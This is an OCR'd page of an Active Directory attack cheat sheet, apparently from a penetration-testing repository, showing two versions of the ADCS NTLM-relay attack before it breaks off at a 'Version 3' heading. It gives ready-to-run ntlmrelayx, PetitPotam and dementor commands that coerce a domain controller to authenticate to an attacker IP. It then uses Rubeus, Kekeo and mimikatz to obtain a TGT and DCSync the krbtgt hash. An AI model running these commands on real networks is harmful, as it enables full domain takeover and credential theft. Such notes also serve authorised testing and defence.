 Require Impacket PR #1101

Version 1: NTLM Relay + Rubeus + PetitPotam

impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
# For a member server or workstation, the template would be "Computer".
# Other templates: workstation, DomainController, Machine, KerberosAuthentication

# Coerce the authentication via MS-ESFRPC EfsRpcOpenFileRaw function with petitpotam 
# You can also use any other way to coerce the authentication like PrintSpooler via MS-RPRN
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local

# Use the certificate with rubeus to request a TGT
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt

# Now you can use the TGT to perform a DCSync
mimikatz> lsadump::dcsync /user:krbtgt
Version 2: NTLM Relay + Mimikatz + Kekeo

impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# Mimikatz
mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth

# Kekeo
kekeo> base64 /input:on
kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt

# Mimikatz
mimikatz> lsadump::dcsync /user:krbtgt
Version 3: Kerberos Relay
